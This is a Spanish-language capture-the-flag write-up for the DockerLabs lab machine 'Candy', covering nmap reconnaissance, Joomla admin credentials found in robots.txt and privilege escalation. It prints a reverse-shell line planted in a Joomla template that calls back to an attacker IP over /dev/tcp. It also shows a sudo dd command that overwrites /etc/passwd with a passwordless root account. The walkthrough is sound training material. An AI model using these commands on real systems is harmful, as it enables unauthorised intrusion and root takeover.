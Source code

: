 #MAQUINA #DOCKERLABS #FACIL 
#JOOMSCAN
<hr>

# RECONOCIMIENTO

Vamos a resolver **Candy** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-02 13:19 CET
Initiating ARP Ping Scan at 13:19
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 13:19, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 13:19
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 13:19, 0.49s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-12-02 13:19:04 CET for 1s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.72 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB

```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** abierto.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p80 172.17.0.2                                  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-02 13:19 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.000021s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Home
| http-robots.txt: 17 disallowed entries (15 shown)
| /joomla/administrator/ /administrator/ /api/ /bin/ 
| /cache/ /cli/ /components/ /includes/ /installation/ 
|_/language/ /layouts/ /un_caramelo /libraries/ /logs/ /modules/
|_http-generator: Joomla! - Open Source Content Management
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.93 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-02 13:20 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.0000040s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /administrator/: Possible admin folder
|   /administrator/index.php: Possible admin folder
|   /robots.txt: Robots file
|   /administrator/manifests/files/joomla.xml: Joomla version 4.1.2
|   /htaccess.txt: Joomla!
|   /README.txt: Interesting, a readme.
|   /cache/: Potentially interesting folder
|   /images/: Potentially interesting folder
|   /includes/: Potentially interesting folder
|   /modules/: Potentially interesting folder
|   /templates/: Potentially interesting folder
|_  /tmp/: Potentially interesting folder
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.65 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

**Conclusiones:** Posible **Joomla**.

## HTTP (80)

Al revisar la web que hay en el puerto 80, vemos que hay un robots.txt, encontramos :
**Usuario -> admin**
**Contraseña -> c2FubHVpczEyMzQ1 (base64) -> sanluis12345**

# EXPLOTACION

Templates > Entras a uno desplegado > index.php > retocas un php para darte una reverse shell (	`exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");`  ) .
Mientras te pones en escucha (nc  -nlvp 443)

# ESCALADA PRIVILEGIOS

Enumerando un poco me encuentro con otro_caramelo.txt en **/var/backups/hidden**:

**Usuario -> luisillo**
**Contraseña -> luisillosuperpassword**

YA ESTAMOS COMO LUISILLO.

Vemos si el usuario tiene permisos SUDO:

   ```bash
luisillo@2087e63be8d2:/var$ sudo -l
Matching Defaults entries for luisillo on 2087e63be8d2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on 2087e63be8d2:
    (ALL) NOPASSWD: /bin/dd

```

Vemos **bash** con permisos SUDO :

   ```bash
luisillo@2087e63be8d2:~$ echo "hack::0:0:root:/root:/bin/bash" | sudo dd of=/etc/passwd
0+1 records in
0+1 records out
31 bytes copied, 2.2419e-05 s, 1.4 MB/s
luisillo@2087e63be8d2:~$ su hack
hack@2087e63be8d2:/home/luisillo# whoami
hack
hack@2087e63be8d2:/home/luisillo# 
```

**YA ESTAMOS COMO ROOT**